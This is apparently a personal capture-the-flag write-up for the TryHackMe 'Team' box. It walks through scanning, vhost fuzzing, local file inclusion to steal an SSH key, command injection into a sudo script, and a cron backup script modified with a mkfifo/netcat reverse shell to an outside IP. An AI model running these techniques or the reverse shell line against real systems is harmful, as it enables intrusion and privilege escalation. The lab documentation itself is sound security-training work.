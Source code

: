 - - - 
created : 25-07-2025 

Tags : #easy 
- - - 
# Objective

**Please allow 3-5 minutes for the box to boot**
# Recon

## Rustscan - Nmap

We use [[Rustscan]] that will pass the result to [[Nmap]] :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Team]
└─$ rustscan -a team.thm -- -A 
 
Open 10.10.168.250:21
Open 10.10.168.250:22
Open 10.10.168.250:80
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.5
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Team
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
```

# Enumeration

## HTTP(80)

### Gobuster

We can use [[Gobuster]] tu start [[Enumeration]] on the target :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Team]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt  -u http://team.thm  

/.hta                 (Status: 403) [Size: 273]
/.htpasswd            (Status: 403) [Size: 273]
/.htaccess            (Status: 403) [Size: 273]
/assets               (Status: 301) [Size: 305] [--> http://team.thm/assets/]
/images               (Status: 301) [Size: 305] [--> http://team.thm/images/]
/index.html           (Status: 200) [Size: 2966]
/robots.txt           (Status: 200) [Size: 5]
/scripts              (Status: 301) [Size: 306] [--> http://team.thm/scripts/]
/server-status        (Status: 403) [Size: 273]
Progress: 4746 / 4747 (99.98%)

```

![[Pasted image 20250725204448.png]]

![[Pasted image 20250725204548.png]]
### FFuf

Using [[FFuf]] to fuzz vhosts :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Team]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -H 'Host: FUZZ.team.thm' -u http://team.thm -fs 11366 -c
________________________________________________

dev                     [Status: 200, Size: 187, Words: 20, Lines: 10, Duration: 60ms]
www                     [Status: 200, Size: 2966, Words: 140, Lines: 90, Duration: 57ms]
:: Progress: [20478/20478] :: Job [1/1] :: 632 req/sec :: Duration: [0:00:37] :: Errors: 0 ::

```

We use [[Nano]] to add them :

![[Pasted image 20250725205143.png]]

`dev.team.thm` :

![[Pasted image 20250725205220.png]]
![[Pasted image 20250725205306.png]]

### Caido

We can try [[Local File Inclusion (LFI)]] with [[Caido]] :

![[Pasted image 20250725210416.png]]

![[Pasted image 20250725211146.png]]

![[Pasted image 20250725211342.png]]

And we can retrieve the first flag:

![[Pasted image 20250725211728.png]]
# Exploit

We retrieve `dale` [[SSH]] private key, i did it wit [[Caido]] and a [[Local File Inclusion (LFI)]] wordlist for linux systems (i tried not URL encoded and didn't worked):

![[Pasted image 20250725215329.png]]
## SSH First Access

We save it and make it executable with `chmod 600 id_dale` then use it:

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Team]
└─$ ssh -i id_dale dale@team.thm                                                          
Last login: Mon Jan 18 10:51:32 2021
dale@ip-10-10-168-250:~$ ls
user.txt
dale@ip-10-10-168-250:~$ cat user.txt
THM{6Y0TXHz7c2d}
```

We have again the flag, retrievable from [[Website]] with [[Local File Inclusion (LFI)]] .
# Lateral Movement - Privilege Escalation

We can start [[Privilege Escalation]] by checking permissions :

```bash
dale@ip-10-10-168-250:/home$ sudo -l
Matching Defaults entries for dale on ip-10-10-168-250:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on ip-10-10-168-250:
    (gyles) NOPASSWD: /home/gyles/admin_checks
dale@ip-10-10-168-250:/home$ cd gyles
dale@ip-10-10-168-250:/home/gyles$ cat admin_checks 
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"

```

We’ll be injecting in the error variable since we see that the variable is directly passed to a system call:

```bash
dale@ip-10-10-168-250:/home/gyles$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: name
Enter 'date' to timestamp the file: /bin/bash
The Date is /bin/bash
id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),108(lxd),1003(editors),1004(admin)
```

Now we have a shell as the user Gyle.

Also, going through “.bash_history”, we see a trace of Cronjob running.

Since, going through the file we see that it’s a bash script that copies some backups, we decided to edit the file and add a [[Reverse Shell]] since we knew that a Cronjob was being executed:

```bash
cat main_backup.sh        
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.250.11.13 1337 >/tmp/f
```

We setup a listener with [[Netcat]] and wait for root [[Shell]] :

```bash
┌──(hax㉿HaxonKali)-[~/Scrivania]
└─$ nc -lvnp 1337
listening on [any] 1337 ...

```

Pwned !!